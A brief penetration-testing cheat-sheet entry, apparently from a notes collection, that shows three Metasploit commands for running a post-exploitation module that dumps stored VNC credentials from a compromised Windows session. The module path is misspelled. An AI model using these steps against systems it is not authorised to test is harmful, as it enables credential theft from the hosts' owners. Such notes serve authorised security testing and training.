 # Dump VNC Credentials

You need to have an authenticated VNC session within Metasploit

```text
MSF > use post/windows/gather/credentails/vnc 
MSF > set session [number] 
MSF > exploit
```

